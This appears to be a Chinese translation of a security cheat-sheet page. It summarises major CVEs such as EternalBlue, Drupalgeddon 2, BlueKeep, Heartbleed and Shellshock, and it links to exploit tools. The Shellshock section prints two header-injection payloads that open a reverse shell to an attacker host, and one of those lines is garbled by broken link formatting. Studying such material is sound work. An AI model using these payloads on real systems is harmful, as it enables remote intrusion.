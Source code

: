 # 常见漏洞和暴露

## 工具

- [Trickest CVE 仓库 - 自动收集 CVE 和 PoC](https://github.com/trickest/cve)
- [Nuclei 模板 - 社区策划的 nuclei 引擎用于发现应用程序中安全漏洞的模板列表](https://github.com/projectdiscovery/nuclei-templates)
- [Metasploit 框架](https://github.com/rapid7/metasploit-framework)
- [CVE 详情 - 最终的安全漏洞数据源](https://www.cvedetails.com/)

## 过去 5 年中的重大 CVE

### CVE-2017-0144 - EternalBlue

EternalBlue 利用了微软实现的 Server Message Block（SMB）协议中的一个漏洞。该漏洞存在是因为各种版本的 Microsoft Windows 中的 SMB 版本 1（SMBv1）服务器处理来自远程攻击者的特制数据包不当，允许他们在目标计算机上执行任意代码。

受影响的系统：

- Windows Vista SP2
- Windows Server 2008 SP2 和 R2 SP1
- Windows 7 SP1
- Windows 8.1
- Windows Server 2012 Gold 和 R2
- Windows RT 8.1
- Windows 10 Gold、1511 和 1607
- Windows Server 2016

### CVE-2017-5638 - Apache Struts 2

3月6日，Apache Struts 2 中一个新的远程代码执行（RCE）漏洞被公开。这个最近的漏洞，CVE-2017-5638，允许远程攻击者通过“Content-Type”头向 Web 应用程序注入操作系统命令。

### CVE-2018-7600 - Drupalgeddon 2（Drupal 末日 2）

Drupal 7.x 和 8.x 的多个子系统中存在远程代码执行漏洞。这可能允许攻击者在 Drupal 站点上利用多个攻击向量，可能导致站点被完全攻陷。

### CVE-2019-0708 - BlueKeep（蓝屏保持）

在远程桌面服务（以前称为终端服务）中存在一个远程代码执行漏洞，当未经身份验证的攻击者使用 RDP 连接到目标系统并发送精心构造的请求时，该漏洞就会被利用。这个漏洞是预认证的，不需要用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。然后攻击者可以安装程序；查看、更改或删除数据；或以完整用户权限创建新账户。

### CVE-2019-19781 - Citrix ADC Netscaler（思杰 ADC 网锐）

Citrix 应用交付控制器（ADC），以前称为 NetScaler ADC 和 Citrix 网关，以前称为 NetScaler 网关中存在一个远程代码执行漏洞，如果被利用，可能允许未经身份验证的攻击者执行任意代码。

受影响的产品：

- Citrix ADC 和 Citrix 网关版本 13.0 所有支持的构建
- Citrix ADC 和 NetScaler 网关版本 12.1 所有支持的构建
- Citrix ADC 和 NetScaler 网关版本 12.0 所有支持的构建
- Citrix ADC 和 NetScaler 网关版本 11.1 所有支持的构建
- Citrix NetScaler ADC 和 NetScaler 网关版本 10.5 所有支持的构建

## 虽旧但未被遗忘

### CVE-2014-0160 - Heartbleed（心脏滴血）

心脏滴血漏洞是流行的 OpenSSL 加密软件库中的一个严重漏洞。这种弱点允许窃取在正常条件下由 SSL/TLS 加密保护的信息，SSL/TLS 为互联网上的应用程序（如网页、电子邮件、即时通讯（IM）和一些虚拟专用网络（VPNs））提供通信安全和隐私。

### CVE-2014-6271 - Shellshock（贝壳冲击）

Shellshock，也称为 Bashdoor，是在广泛使用的 Unix Bash shell 中发现的一系列安全漏洞，其中第一个于 2014 年 9 月 24 日公开。许多面向互联网的服务，例如某些 Web 服务器部署，使用 Bash 处理某些请求，允许攻击者使易受攻击的 Bash 版本执行任意命令。这可以让攻击者获得对计算机系统的未经授权访问。

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "[https://10.0.0.1/cgi-bin/admin.cgi"（https://10.0.0.1/cgi-bin/admin.cgi"）](https://10.0.0.1/cgi-bin/admin.cgi%22%EF%BC%88https://10.0.0.1/cgi-bin/admin.cgi%22%EF%BC%89)
```

## 感谢

- 心脏滴血 - 官方网站
- 贝壳冲击 - 维基百科
- Imperva Apache Struts 分析
- 永恒之蓝 - 维基百科
- [蓝屏保持 - 微软]
